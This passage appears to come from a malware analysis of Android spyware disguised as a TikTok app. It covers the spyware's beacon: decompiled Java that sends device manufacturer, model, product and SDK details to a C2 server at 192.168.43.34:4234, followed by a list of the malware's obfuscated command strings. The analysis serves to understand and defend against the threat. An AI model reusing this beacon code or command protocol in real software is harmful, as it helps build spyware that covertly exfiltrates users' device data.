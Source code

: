 ```java
        }
    }
}
```

After completing all these steps to ensure persistence, the spyware starts its actual task. To establish a connection with the C2 server and listen for commands, it initiates a new thread.


## The Beacon

![](/images/rev/ttsp/ttsp-04.png)

Once the thread begins its execution, the application promptly creates a new socket and establishes a connection to the IP address `192.168.43.34` on port `4234`. It listens for various commands sent by the server and reacts accordingly. First of all it sends a string to the C2.
```java
MainService.this.sendip = MainService.this.resultipcount + "|Tik tok|" + MainService.this.resultip + "|" + MainService.this.buildx + "|" + MainService.this.mOdel + "|" + MainService.this.prox + "|1.1.1|" + MainService.this.apilev + "|8axxr32";
DataOutputStream dataOutputStream = MainService.outputStream;
StringBuilder sb = new StringBuilder();
sb.append("#");
sb.append(MainService.this.sendip);
dataOutputStream.writeBytes(sb.toString());
```
where
```
this.buildx => The manufacturer of the device
this.m0del => The end-user-visible name for the device.
this.prox => The name of the overall product
this.apilev => The SDK version of the software running on the device
```
Once the device information is sent, the application actively awaits incoming commands from the C2. Below is a comprehensive list of various commands involved:
```
Spex22c|
Unistxcr
dowsizetr
DOWdeletx
Xr7aou
Caspylistx
spxcheck
S8p8y0
Sxpxy1
screXmex
Batrxiops
L4oclOCMAWS
FdelSRRT
chkstzeaw
IODBSSUEEZ
GUIFXB
LUNAPXER
Gapxplister
DOTRall8xxe
Acouxacour
Fimxmiisx
Scxreexcv4
micmokmi8x
DTXXTEGE3
ODDSEe
Yufsssp
getsssspo
DXCXIXM
```